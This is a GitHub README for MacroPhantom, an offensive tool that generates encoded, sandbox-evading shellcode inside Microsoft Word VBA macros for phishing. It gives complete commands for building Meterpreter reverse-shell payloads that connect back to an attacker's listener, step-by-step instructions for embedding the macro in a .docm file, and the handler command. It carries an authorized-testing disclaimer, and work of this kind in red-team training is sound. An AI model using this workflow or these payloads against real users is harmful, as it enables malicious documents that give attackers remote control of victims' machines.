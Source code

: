 # MacroPhantom

<p align="center">
  <img src="https://img.shields.io/badge/Version-1.0-brightgreen" alt="Version">
  <img src="https://img.shields.io/badge/Language-Python%203-blue" alt="Language">
  <img src="https://img.shields.io/badge/Platform-Windows%20%7C%20Linux%20%7C%20macOS-orange" alt="Platform">
  <img src="https://img.shields.io/badge/License-MIT-lightgrey" alt="License">
</p>

<p align="center">
  <b>MacroPhantom</b> is an advanced VBA payload generator that creates encoded and obfuscated shellcode for Microsoft Office macros.
</p>

<p align="center">
  <a href="https://xbz0n.sh"><img src="https://img.shields.io/badge/Blog-xbz0n.sh-red" alt="Blog"></a>
</p>

---

## Overview

MacroPhantom automates the process of generating XOR+Caesar encrypted shellcode and embedding it into VBA macros for Microsoft Office documents. The tool streamlines the workflow for security professionals during penetration tests and security assessments, particularly for phishing simulations.

## Features

- **Self-contained** - All functionality consolidated in a single Python script
- **XOR and Caesar-based encoding** - Dual-layer shellcode encryption
- **Anti-sandbox techniques** - Sleep timer and other evasion methods
- **Cross-version compatibility** - Support for both modern and legacy Word
- **Customizable encoding** - Adjustable XOR and Caesar cipher keys
- **Metasploit integration** - Automatic handler generation

## Version Compatibility

| Word Version | Compatibility | Feature Support |
|--------------|---------------|-----------------|
| Word 2003-2007 | ✅ (legacy mode) | Basic evasion |
| Word 2010-2016 | ✅ | Full evasion, PtrSafe declarations |
| Word 2019-2021 | ✅ | Full evasion, PtrSafe declarations |
| Microsoft 365 | ✅ | Full evasion, PtrSafe declarations |

## Requirements

- Python 3.8 or higher
- Metasploit Framework
- Mono (for Linux/macOS users)

## Installation

```bash
# Clone the repository
git clone https://github.com/username/MacroPhantom.git
cd MacroPhantom

# Ensure the script is executable
chmod +x VBS_Macro_Generator.py
```

## Usage

### Basic Usage

```bash
# Generate macros for modern Word versions (2010+)
python3 VBS_Macro_Generator.py --LHOST 192.168.1.100 --LPORT 4444
```

### Advanced Options

```bash
# Generate macros for legacy Word versions (2003-2007)
python3 VBS_Macro_Generator.py --LHOST 192.168.1.100 --LPORT 4444 --legacy

# Use custom encoding keys
python3 VBS_Macro_Generator.py --LHOST 192.168.1.100 --LPORT 4444 --xor-key 123 --add-key 5

# Use a different payload
python3 VBS_Macro_Generator.py --LHOST 192.168.1.100 --LPORT 4444 --payload windows/meterpreter/reverse_tcp

# Specify an output directory
python3 VBS_Macro_Generator.py --LHOST 192.168.1.100 --LPORT 4444 --output-dir /path/to/output
```

## Command Line Options

| Option | Description | Default |
|--------|-------------|---------|
| `--LHOST` | IP address to listen on (required) | - |
| `--LPORT` | Port to listen on (required) | - |
| `--payload` | Metasploit payload to use | windows/meterpreter/reverse_https |
| `--xor-key` | XOR key value (0-255) | 250 (0xFA) |
| `--add-key` | Additive key value | 2 |
| `--legacy` | Generate macros for Word 2007 and earlier | False |
| `--output-dir` | Directory to save generated files | Current directory |

## Workflow

1. The tool generates shellcode using msfvenom with your specified parameters
2. It uses a C# program to encrypt the shellcode with XOR and Caesar ciphers
3. The encrypted shellcode is embedded into a VBA macro template
4. The tool creates a Metasploit resource file for handling the connection

## Demo Output

After successful execution, you'll see output similar to this:

```
[*] Checking requirements...
[+] Python version: OK
[+] Metasploit Framework: OK
[+] Mono: OK
[*] Generating shellcode with msfvenom...
[+] Shellcode generated and saved to shellcode.txt
[*] Encoding shellcode...
[+] C# encoder created at Encoder.cs
[+] C# encoder compiled to Encoder.exe
[+] Shellcode encoded successfully
[*] Generating Word VBA macros...
[+] VBA macro code generated at macro_payload.txt
[*] Creating Metasploit handler script...
[+] Metasploit handler script created at handler.rc
[*] Run with: msfconsole -r handler.rc

[*] Word Compatibility: The generated macros are compatible with Word 2010-2021 and Microsoft 365

[+] All files generated successfully in .
[*] Next steps:
  1. Copy the VBA code from macro_payload.txt
  2. Open Microsoft Word, press Alt+F11 to open the VBA editor
  3. Insert a new module under 'Normal' project
  4. Paste the code and save as a macro-enabled document (.docm)
  5. Start the Metasploit handler with: msfconsole -r handler.rc
```

## Using the Generated Macro

1. Copy the VBA code from the generated macro file
2. Open Microsoft Word
3. Press Alt+F11 to open the VBA editor
4. Insert a new module under the 'Normal' project
5. Paste the code
6. Save as a macro-enabled document (.docm)
7. Start the Metasploit handler with: `msfconsole -r handler.rc`

## Security Considerations

- This tool is for educational purposes and authorized testing only
- Always obtain proper permission before performing any penetration testing
- The macros generated may be detected by security software
- Use responsibly and legally

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

## Author

- **Ivan Spiridonov (xbz0n)** - [Blog](https://xbz0n.sh) | [GitHub](https://github.com/xbz0n)

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Acknowledgments

- Special thanks to the penetration testing community for inspiration
- Made for OSEP certification challenges
